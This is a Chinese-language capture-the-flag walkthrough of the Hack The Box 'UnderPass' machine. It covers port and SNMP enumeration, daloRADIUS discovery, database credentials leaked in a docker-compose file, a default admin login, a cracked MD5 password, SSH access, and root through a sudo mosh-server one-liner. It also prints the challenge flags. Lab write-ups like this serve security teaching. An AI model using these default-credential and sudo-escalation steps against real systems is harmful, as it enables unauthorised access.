

# UnderPass

:::info

Difficulty: Easy

Operating System: Linux

:::

## ENTRY POINT

```plaintext
10.10.11.48
```

## 信息搜集

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo ./tools/fscan-1.8.4/fscan -h 10.10.11.48
start infoscan
10.10.11.48:22 open
10.10.11.48:80 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://10.10.11.48        code:200 len:10671  title:Apache2 Ubuntu Default Page: It works

┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -v --min-rate=5000 -A -p- 10.10.11.48
Nmap scan report for bogon (10.10.11.48)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 41.015 days (since Sat Feb 22 21:51:42 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -v -A -sU --top-ports=50 10.10.11.48
Nmap scan report for bogon (10.10.11.48)
Host is up (0.16s latency).

PORT      STATE         SERVICE         VERSION
7/udp     closed        echo
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    closed        dhcpc
69/udp    closed        tftp
80/udp    closed        http
111/udp   closed        rpcbind
123/udp   closed        ntp
135/udp   closed        msrpc
136/udp   closed        profile
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open          snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 6m35s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 6m35.53s (39553 timeticks)
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
518/udp   closed        ntalk
520/udp   closed        route
593/udp   closed        http-rpc-epmap
626/udp   closed        serialnumberd
631/udp   closed        ipp
996/udp   closed        vsinet
997/udp   closed        maitrd
998/udp   closed        puparp
999/udp   closed        applix
1025/udp  closed        blackjack
1026/udp  closed        win-rpc
1027/udp  closed        unknown
1433/udp  closed        ms-sql-s
1434/udp  closed        ms-sql-m
1645/udp  closed        radius
1646/udp  closed        radacct
1701/udp  closed        L2TP
1812/udp  open|filtered radius
1900/udp  closed        upnp
2048/udp  closed        dls-monitor
2049/udp  closed        nfs
2222/udp  closed        msantipiracy
3283/udp  closed        netassistant
3456/udp  closed        IISrpc-or-vat
4500/udp  closed        nat-t-ike
5060/udp  closed        sip
5353/udp  closed        zeroconf
20031/udp closed        bakbonenetvault
32768/udp closed        omad
49152/udp closed        unknown
49153/udp closed        unknown
49154/udp closed        unknown
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!
```

通过扫描发现，端口 `80` 只是开放了一个 Ubuntu 的默认 Apache2 服务，没有可利用性

通过 UDP 扫描，发现可能存在有 `SNMP` 服务的端口，以及一个主机名

尝试添加 hosts 记录，通过 vhost 访问 http 服务，没有新发现

## 枚举 SNMP

尝试进行探测 SNMP 服务

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap --script "snmp* and not snmp-brute" -sU -p 161 10.10.11.48
Starting Nmap 7.95 (https://nmap.org) at 2025-04-04 22:22 CST
Nmap scan report for UnDerPass.htb (10.10.11.48)
Host is up (0.076s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 13m27s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 13m27.58s (80758 timeticks)
```

尝试使用 `snmpwalk` 进行枚举

```shell
┌──(randark ㉿ kali)-[~]
└─$ snmpwalk -v 1 -c public 10.10.11.48
......
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (96253) 0:16:02.53
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
......
```

尝试检测 `daloradius`

```shell
┌──(randark ㉿ kali)-[~]
└─$ http get http://10.10.11.48/daloradius
HTTP/1.1 301 Moved Permanently
Connection: Keep-Alive
Content-Length: 315
Content-Type: text/html; charset=iso-8859-1
Date: Fri, 04 Apr 2025 14:11:34 GMT
Keep-Alive: timeout=5, max=100
Location: http://10.10.11.48/daloradius/
Server: Apache/2.4.52 (Ubuntu)

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.11.48/daloradius/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.48 Port 80</address>
</body></html>
```

## 枚举 daloradius

尝试进行目录爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u http://10.10.11.48/daloradius/
Target: http://10.10.11.48/

[22:31:02] Starting: daloradius/
[22:31:09] 200 -  221B  - /daloradius/.gitignore
[22:31:37] 301 -  319B  - /daloradius/app  ->  http://10.10.11.48/daloradius/app/
[22:31:43] 200 -   24KB - /daloradius/ChangeLog
[22:31:51] 200 -    2KB - /daloradius/docker-compose.yml
[22:31:51] 301 -  319B  - /daloradius/doc  ->  http://10.10.11.48/daloradius/doc/
[22:31:51] 200 -    2KB - /daloradius/Dockerfile
[22:32:04] 301 -  323B  - /daloradius/library  ->  http://10.10.11.48/daloradius/library/
[22:32:04] 200 -   18KB - /daloradius/LICENSE
[22:32:22] 200 -   10KB - /daloradius/README.md
[22:32:26] 301 -  321B  - /daloradius/setup  ->  http://10.10.11.48/daloradius/setup/
```

在 `docker-compose.yml` 中可以发现

```yml
version: "3"

services:

  radius-mysql:
    image: mariadb:10
    container_name: radius-mysql
    restart: unless-stopped
    environment:
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      - MYSQL_ROOT_PASSWORD=radiusrootdbpw
    volumes:
      - "./data/mysql:/var/lib/mysql"

  radius:
    container_name: radius
    build:
      context: .
      dockerfile: Dockerfile-freeradius
    restart: unless-stopped
    depends_on:
      - radius-mysql
    ports:
      - '1812:1812/udp'
      - '1813:1813/udp'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional settings
      - DEFAULT_CLIENT_SECRET=testing123
    volumes:
      - ./data/freeradius:/data
    # If you want to disable debug output, remove the command parameter
    command: -X

  radius-web:
    build: .
    container_name: radius-web
    restart: unless-stopped
    depends_on:
      - radius
      - radius-mysql
    ports:
      - '80:80'
      - '8000:8000'
    environment:
      - MYSQL_HOST=radius-mysql
      - MYSQL_PORT=3306
      - MYSQL_DATABASE=radius
      - MYSQL_USER=radius
      - MYSQL_PASSWORD=radiusdbpw
      # Optional Settings:
      - DEFAULT_CLIENT_SECRET=testing123
      - DEFAULT_FREERADIUS_SERVER=radius
      - MAIL_SMTPADDR=127.0.0.1
      - MAIL_PORT=25
      - MAIL_FROM=root@daloradius.xdsl.by
      - MAIL_AUTH=

    volumes:
      - ./data/daloradius:/data
```

得到 `mysql` 的用户凭据 `radius:radiusdbpw`

进行更深的目录爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ feroxbuster -u http://10.10.11.48/daloradius/ -x html,php,txt,php.bak -d 3
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      319c http://10.10.11.48/daloradius/app => http://10.10.11.48/daloradius/app/
301      GET        9l       28w      319c http://10.10.11.48/daloradius/doc => http://10.10.11.48/daloradius/doc/
301      GET        9l       28w      326c http://10.10.11.48/daloradius/app/common => http://10.10.11.48/daloradius/app/common/
301      GET        9l       28w      323c http://10.10.11.48/daloradius/contrib => http://10.10.11.48/daloradius/contrib/
301      GET        9l       28w      335c http://10.10.11.48/daloradius/app/common/includes => http://10.10.11.48/daloradius/app/common/includes/
301      GET        9l       28w      336c http://10.10.11.48/daloradius/app/common/templates => http://10.10.11.48/daloradius/app/common/templates/
301      GET        9l       28w      323c http://10.10.11.48/daloradius/library => http://10.10.11.48/daloradius/library/
301      GET        9l       28w      325c http://10.10.11.48/daloradius/app/users => http://10.10.11.48/daloradius/app/users/
301      GET        9l       28w      333c http://10.10.11.48/daloradius/app/common/static => http://10.10.11.48/daloradius/app/common/static/
301      GET        9l       28w      321c http://10.10.11.48/daloradius/setup => http://10.10.11.48/daloradius/setup/
301      GET        9l       28w      334c http://10.10.11.48/daloradius/app/common/library => http://10.10.11.48/daloradius/app/common/library/
301      GET        9l       28w      327c http://10.10.11.48/daloradius/doc/install => http://10.10.11.48/daloradius/doc/install/
301      GET        9l       28w      326c http://10.10.11.48/daloradius/contrib/db => http://10.10.11.48/daloradius/contrib/db/
301      GET        9l       28w      330c http://10.10.11.48/daloradius/app/users/lang => http://10.10.11.48/daloradius/app/users/lang/
301      GET        9l       28w      333c http://10.10.11.48/daloradius/app/users/library => http://10.10.11.48/daloradius/app/users/library/
301      GET        9l       28w      331c http://10.10.11.48/daloradius/contrib/scripts => http://10.10.11.48/daloradius/contrib/scripts/
302      GET        0l        0w        0c http://10.10.11.48/daloradius/app/users/index.php => home-main.php
301      GET        9l       28w      339c http://10.10.11.48/daloradius/app/users/notifications => http://10.10.11.48/daloradius/app/users/notifications/
200      GET      247l     1010w     7814c http://10.10.11.48/daloradius/doc/install/INSTALL
301      GET        9l       28w      329c http://10.10.11.48/daloradius/app/operators => http://10.10.11.48/daloradius/app/operators/
301      GET        9l       28w      334c http://10.10.11.48/daloradius/app/operators/lang => http://10.10.11.48/daloradius/app/operators/lang/
302      GET        0l        0w        0c http://10.10.11.48/daloradius/app/operators/index.php => home-main.php
301      GET        9l       28w      336c http://10.10.11.48/daloradius/app/operators/static => http://10.10.11.48/daloradius/app/operators/static/
404      GET        0l        0w      273c http://10.10.11.48/daloradius/library/chita
301      GET        9l       28w      333c http://10.10.11.48/daloradius/contrib/heartbeat => http://10.10.11.48/daloradius/contrib/heartbeat/
```

尝试访问 `http://10.10.11.48/daloradius/app/operators/login.php`

尝试使用默认凭据 `administrator:radius` 登录



成功进入管理后台


查看用户列表


得到一份凭据哈希

```plaintext
svcMosh:412DD4759978ACFCC81DEAB01B382403
```

查表得到

|               Hash               | Type |      Result       |
| :------------------------------: | :--: | :---------------: |
| 412DD4759978ACFCC81DEAB01B382403 | md5  | underwaterfriends |

## SSH svcMosh

使用 `svcMosh:underwaterfriends` 登陆主机

```shell
┌──(randark ㉿ kali)-[~]
└─$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
......
svcMosh@underpass:~$ whoami
svcMosh
```

## FLAG - USER

```flag title="/home/svcMosh/user.txt"
41941309cd65de627360b7c401fdea68
```

## 尝试提权至 root

尝试枚举 sudo 列表

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

尝试通过 mosh 得到 root 的 terminal

```shell
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
```

执行之后，即可连接到 root 的 terminal

## FLAG - ROOT

```flag title="/root/root.txt"
05449db7f2c8769bf73940f27cecf969
```
